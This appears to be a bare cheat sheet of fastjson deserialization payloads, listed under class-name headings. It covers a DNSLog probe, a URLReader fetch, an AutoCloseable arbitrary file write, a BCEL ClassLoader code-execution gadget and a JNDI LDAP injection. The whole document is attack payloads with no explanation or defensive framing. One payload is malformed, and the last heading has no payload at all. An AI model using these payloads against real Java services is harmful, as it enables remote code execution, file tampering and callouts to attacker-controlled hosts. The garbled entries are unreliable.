 URL
```json
{
	"@type": "java.net.URL",
	"val": "http://dnslog.com"
}
```
JSONObject
```json
{
	"@type": "com.alibaba.fastjson.JSONObject",
	{
		"@type": "java.net.URL",
		"val": "http://dnslog.com"
	}
}
""
}
```
URLReader
```json
{
	"poc": {
		"@type": "java.lang.AutoCloseable",
		"@type": "com.alibaba.fastjson.JSONReader",
		"reader": {
			"@type": "jdk.nashorn.api.scripting.URLReader",
			"url": "http://127.0.0.1:9999"
		}
	}
}
```
AutoCloseable 任意文件写入
```json
{
	"@type": "java.lang.AutoCloseable",
	"@type": "org.apache.commons.compress.compressors.gzip.GzipCompressorOutputStream",
	"out": {
		"@type": "java.io.FileOutputStream",
		"file": "/path/to/target"
	},
	"parameters": {
		"@type": "org.apache.commons.compress.compressors.gzip.GzipParameters",
		"filename": "filecontent"
	}
}
```
BasicDataSource
```json
{
  "@type" : "org.apache.tomcat.dbcp.dbcp.BasicDataSource",
  "driverClassName" : "$$BCEL$$$l$8b$I$A$A$A$A...",
  "driverClassLoader" :
  {
    "@type":"Lcom.sun.org.apache.bcel.internal.util.ClassLoader;"
  }
}
```
JndiConverter
```json
{
	"@type": "org.apache.xbean.propertyeditor.JndiConverter",
	"AsText": "ldap://127.0.0.1:23457/Command8"
}
```
JtaTransactionConfig